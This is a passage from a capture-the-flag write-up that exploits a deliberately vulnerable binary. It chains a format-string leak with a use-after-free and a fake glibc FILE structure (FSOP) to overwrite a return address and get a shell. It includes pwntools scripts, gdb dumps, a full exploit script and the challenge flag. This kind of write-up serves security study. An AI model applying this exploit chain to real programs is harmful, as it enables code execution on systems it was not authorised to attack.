    puts("[*] Routine Cancelled.");
  }
  return;
}
```

Closes the active file stream using `fclose()`, which frees the memory associated with the FILE structure.<br>
We have a `Use-After-Free` vulnerability, the function frees the `console_state.core_log` chunk but does not set the pointer to `NULL` afterward. The `console_state.core_log` pointer is left dangling, pointing to freed memory that can be reallocated.

### commit_routine

```c
void commit_routine(void)

{
  if (console_state.core_log == (FILE *)0x0) {
    puts("[!] No active routine.");
  }
  else {
    fputs(console_state.spell_fragment,(FILE *)console_state.core_log);
    puts("[*] Routine Committed to Starshard Core.");
  }
  return;
}
```

Writes the data stored in `console_state.spell_fragment` to the file stream pointed to by `console_state.core_log`.

### ginger_gate

```c
void ginger_gate(void)

{
  setenv("XMAS","The Gingerbit Gremlin listens.",1);
  system("/bin/sh");
  return;
}
```

We have a win fuction that gives us a shell.

## Exploitation

We have identified two critical vulnerabilities: a Format String bug in `main` allowing us to leak useful addresses and a Use-After-Free in `cancel_routine`.<br>
Our plan relies on FSOP to turn a standard file write into an arbitrary memory write.<br>
We use the Format String bug to find the exact address of the stack's return pointer and the win function.<br>
We trigger the UAF by freeing the core_log FILE structure, because the heap allocator reuses freed chunks, we can immediately allocate a new buffer of the same size. This gives us full control over the memory that the core_log pointer is still referencing.<br>
Next we write a fake FILE structure into this chunk. Crucially, we manipulate the internal buffering pointers `_IO_write_base` and `_IO_write_ptr` to point not to a heap buffer, but to the Stack Return Address we leaked earlier.<br>
When we force the program to write to the log via `commit_routine`, it follows our fake pointers and copies our malicious payload (the address of `ginger_gate`) directly onto the stack, overwriting the return address and hijacking the execution flow.


### Leaking the addresses

We start by exploiting the Format String vulnerability in the `Tinkerer Name` input. Since the buffer size is quite restricted (only 16 bytes), we can't easily leak everything in a single payload.<br>
To map out the stack layout and find useful pointers, we can write a script to fuzz the format string offsets, we can do something like this:

```python
from pwn import * 

elf = context.binary = ELF('./starshard_core',False)
libc = ELF('./glibc/libc.so.6',False)

context.log_level = 'error'
def leak(i):
    p = elf.process()
    pl = f'%{i}$p|'
    p.sendlineafter(b'Name: ',pl.encode())
    p.recvuntil(b'Welcome ')
    return p.recvuntil(b'|',drop=True)

for i in range(1,30):
    print(f'{i}: {leak(i)}')
```

Running the script will give us the following output:

```sh frame=none ShowLineNumbers=false
1: b'0x7ffc2e816520'
2: b'0xffffffff'
3: b'(nil)'
4: b'0xc'
5: b'(nil)'
6: b'0x10'
7: b'0x1'
8: b'0x1'
9: b'0x7fb7a2e2dfd0'
10: b'0x561fdac1d040'
11: b'0x55b8b5a7575e'
12: b'0x100000000'
13: b'0x7ffef76b5b58'
14: b'(nil)'
15: b'0x6b8eabcf7c0436f7'
16: b'0x7ffee5bb0988'
17: b'0x5587d4e8a75e'
18: b'(nil)'
19: b'0x7f8ae0cdac40'
20: b'0xf4e0e267402cc2aa'
21: b'0xf1c012bddb97d1dc'
22: b'0x7fc300000000'
23: b'(nil)'
24: b'(nil)'
25: b'(nil)'
26: b'(nil)'
27: b'0xf92dfc6e324b0a00'
28: b'(nil)'
29: b'0x7fe7a602e07d'
```

- **PIE Leak:** Addresses starting with `0x55..` or `0x56..` usually point to the binary itself. We can use offset 11 to calculate the PIE base.
- **Stack Leak:** Addresses starting with `0x7ff..` are stack addresses. We need this to calculate the exact location of the Return Address we want to overwrite. We can use offset 16.
- **Libc Leak:** Addresses starting with `0x7f..` (but not ff) generally belong to shared libraries like libc. We can use offset 9 to calculate the libc base address.


We send this payload and attach gdb:
```python
from pwn import * 

elf = context.binary = ELF('./starshard_core',False)
libc = ELF('./glibc/libc.so.6',False)
p = elf.process()

pl = b'%11$p%16$p%9$p'
p.sendline(pl)

gdb.attach(p, gdbscript='b main,c')
p.interactive()
```

We get the following output:
```sh frame=none ShowLineNumbers=false
Tinselwick Tinkerer Name: === Welcome 0x55d1bd19775e0x7ffc709a0b180x7fb84e42dfd0 — Starshard Console ===
```

We inspect those addresses in gdb:



The pie address corresponds to `main`, the libc address corresponds to `__libc_start_call_main+128` and the other one is a stack address.<br>
Since the offsets of `main` and `__libc_start_call_main+128` are known from the binary and libc respectively, we can recover the base addresses:<br>
- PIE base = leaked_main_addr - offset_of_main_in_binary<br>
- Libc base = leaked_libc_addr - (offset_of___libc_start_call_main + 128)<br>

For the return address, we can use `telescope $rsp -l 50` to see the stack layout and find the main return address. By calculating the difference between the leaked stack address and the return address location, we obtain the offset needed to target the return address for overwriting..



```sh frame=none ShowLineNumbers=false
gef➤  p/x 0x7ffc709a0b18 - 0x00007ffc709a09f8
$1 = 0x120
```

We calculate the needed addresses using this script:
```python
from pwn import * 

elf = context.binary = ELF('./starshard_core',False)
libc = ELF('./glibc/libc.so.6',False)
p = elf.process()

pl = b'%11$p%16$p%9$p'
p.sendline(pl)
p.recvuntil(b'Welcome ')
s = p.recvline()
pie_addr, stack_addr, libc_addr = s[:14], s[14:28], s[28:42]

libc.address = int(libc_addr,16) - (libc.symbols['__libc_start_call_main'] + 128)
elf.address = int(pie_addr,16) - elf.sym.main
main_ret_addr = int(stack_addr,16) - 0x120

log.success(f'base addr: {hex(elf.address)}')
log.success(f'libc base addr: {hex(libc.address)}')
log.success(f'main ret addr: {hex(main_ret_addr)}')
```



### Understanding FSOP

Before we execute the final payload, it is crucial to understand FSOP (File Structure Oriented Programming). This technique involves crafting or modifying FILE structures in memory to manipulate how standard I/O functions like fread, fwrite, or fputs behave or file streams like stdin, stdout and stderr.

In GLIBC, an open stream (returned by fopen) is handled by a FILE object. Under the hood, this is represented by the struct `_IO_FILE_plus` structure.<br>

```c
struct _IO_FILE_plus {
    _IO_FILE file;                      // The standard _IO_FILE struct with buffers
    const struct _IO_jump_t *vtable; // Pointer to the virtual function table
};
```
You can view the source code [here](https://elixir.bootlin.com/glibc/glibc-2.1.93/source/libio/libioP.h#L310)

It’s basically an `_IO_FILE` structure with a `vtable` at the end.

The struct `_IO_FILE` is a control block that tells the glibc how to handle a file stream. It acts like a manager for a data buffer, keeping track of what has been read, what needs to be written, and where that data is currently sitting in memory. It contains the flags, the file descriptor, and most importantly, the buffering pointers.

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

You can view the source code [here](https://elixir.bootlin.com/glibc/glibc-2.34/source/libio/bits/types/struct_FILE.h#L49)

For this exploit, we care about the three pointers that define this write buffer:

- **_IO_write_base:** The start of the write buffer
- **_IO_write_ptr:** The current pointer where the next byte of data will be written
- **_IO_write_end:** The end of the reserved buffer space.

When we call `fputs(data, file_stream)`, the function checks if there is space in the buffer.

- Logic: If `_IO_write_ptr` < `_IO_write_end`, it copies the input data to the address at `_IO_write_ptr` and increments the pointer.
- The Vulnerability: Since we control the FILE structure via the Use-After-Free, we can point `_IO_write_ptr` anywhere in memory.


### Arbitrary Write

First we allocate the FILE structure using `arm_routine()` function, we can verify the structure using gdb:
```sh frame=none ShowLineNumbers=false
gef➤  p console_state 
$1 = {
  tinkerer_name = "%11$p%16$p%9$p\000",
  spell_name = "AA", '\000' <repeats 21 times>,
  core_log = 0x564a005c02a0,
  spell_fragment = 0x0,
  fragment_sz = 0x0
}
```

`core_log` contains the FILE pointer, we inspect the Heap Chunk Header located just before the pointer by substracting 0x10 from the address.

```sh frame=none ShowLineNumbers=false
gef➤  x/20gx 0x564a005c02a0 - 0x10
0x564a005c0290:	0x0000000000000000	0x00000000000001e1   <----- chunk header (Size + Flags)
0x564a005c02a0:	0x00000000fbad3487	0x0000564a005c0323   <----- data
0x564a005c02b0:	0x0000564a005c0323	0x0000564a005c0323
0x564a005c02c0:	0x0000564a005c0323	0x0000564a005c0323
0x564a005c02d0:	0x0000564a005c0323	0x0000564a005c0323
0x564a005c02e0:	0x0000564a005c0324	0x0000000000000000
0x564a005c02f0:	0x0000000000000000	0x0000000000000000
0x564a005c0300:	0x0000000000000000	0x00007f193e619680
0x564a005c0310:	0x0000000000000003	0x0000000000000000
0x564a005c0320:	0x0000000000000000	0x0000564a005c0380
```

- `0x1e1` represents the chunk size + flags.
- The `0x1` is the `PREV_INUSE` flag.
- The actual size is `0x1e0` (480 bytes).

The chunks size is 480 = 464 + 16 (data + metadata), so we need to allocate a chunk with the size 464.

Now we free the FILE chunk using `cancel_routine()` and allocate a new chunk with `feed_fragment()`.

```python
# Allocate the FILE structure
# This stores a valid pointer in console_state.core_log
p.sendline(b'1')
p.sendlineafter(b'Name: ',b'AA')

# Trigger the Use-After-Free
# We free the FILE struct, but core_log is NOT nulled out
p.sendlineafter(b'>',b'3')

# Reclaim the freed memory
# By requesting 465 bytes, malloc returns the address of the just freed FILE struct
# We now control the data pointed to by core_log
p.sendlineafter(b'Size: ',b'465')
p.sendline(b"BBB")
```

We can verify in gdb:

```sh frame=none ShowLineNumbers=false
gef➤  p console_state 
$1 = {
  tinkerer_name = "%11$p%16$p%9$p\000",
  spell_name = "AA", '\000' <repeats 21 times>,
  core_log = 0x5564e61a32a0,
  spell_fragment = 0x5564e61a32a0 "BBB\n", # Same pointer as core_log
  fragment_sz = 0x1d1
}
```

With the heap memory successfully reclaimed, we now overwrite it with our malicious FILE structure. The goal is to set up the internal pointers such that the "write buffer" is located directly on top of the Main Return Address.

We use pwntools's FileStructure helper to keep the code clean:

```python
# Create a template FILE structure
fp = FileStructure()

# Point the write cursor to the Stack
# fputs writes to the address at _IO_write_ptr
fp._IO_write_ptr = main_ret_addr

# Fake the buffer end
# We define the buffer ending 0x20 bytes AFTER the return address
# The distance (end - ptr) is the available space
fp._IO_write_end = main_ret_addr + 0x20 

# Setup Write Base
# Standard practice to keep base aligned with ptr/end for consistency
fp._IO_write_base = main_ret_addr - 0x20

# Partial overwrite 
pl = bytes(fp)[:128]
p.sendlineafter(b'Fragment:',pl)
```

We crafted a fake FILE structure that tricks fputs into thinking the Stack Return Address is a valid write buffer. This turns a standard file write operation into a tool for overwriting the instruction pointer.

```python
# We update the spell_fragment buffer, this is the source data fputs will read from
p.sendlineafter(b'>',b'2')
p.sendlineafter(b'Size: ',b'16')

# We calculate the address of the win function
# +38 skip setenv and land directly to calling system('/bin/sh') to fix stack alignment
win = elf.sym.ginger_gate + 38
p.sendlineafter(b'Fragment:',p64(win))

# Option 4 calls fputs(spell_fragment, core_log).
# core_log (Fake FILE) says: "Write to the Stack Return Address"
# fputs copies the win address from spell_fragment directly onto the Stack.
p.sendline(b'4')

# We return from main and pop our shell
p.sendline(b'5')
```

We load the win function address into our input buffer and trigger fputs, which uses our fake FILE pointers to copy that address directly over the stack's return address. Returning from main then jumps to our win function instead of exiting normally.

## Solution

Here’s the complete exploit script:

```python
from pwn import * 

elf = context.binary = ELF('./starshard_core',False)
libc = ELF('./glibc/libc.so.6',False)

p = elf.process()

pl = b'%11$p%16$p%9$p'
p.sendline(pl)
p.recvuntil(b'Welcome ')
s = p.recvline()
pie_addr, stack_addr, libc_addr = s[:14], s[14:28], s[28:42]

libc.address = int(libc_addr,16) - (libc.symbols['__libc_start_call_main'] + 128)
elf.address = int(pie_addr,16) - elf.sym.main
main_ret_addr = int(stack_addr,16) - 0x120

log.success(f'base addr: {hex(elf.address)}')
log.success(f'libc base addr: {hex(libc.address)}')
log.success(f'main ret addr: {hex(main_ret_addr)}')

p.sendline(b'1')
p.sendlineafter(b'Name: ',b'AA')

p.sendlineafter(b'>',b'3')
p.sendlineafter(b'>',b'2')
p.sendlineafter(b'Size: ',b'465')

fp = FileStructure()
fp._IO_write_base = main_ret_addr - 0x20
fp._IO_write_ptr = main_ret_addr
fp._IO_write_end = main_ret_addr + 0x20
pl = bytes(fp)[:128]
p.sendlineafter(b'Fragment:',pl)

p.sendlineafter(b'>',b'2')
p.sendlineafter(b'Size: ',b'16')
win = elf.sym.ginger_gate + 38
p.sendlineafter(b'Fragment:',p64(win))

p.sendline(b'4')
p.sendline(b'5')

p.interactive()
```

We run the script and get the flag.



**Flag:** `HTB{c0rrupt3d_st4rsh4rd_w1sh3s_2f18560a927e54f3b903a9719dc7b604}`
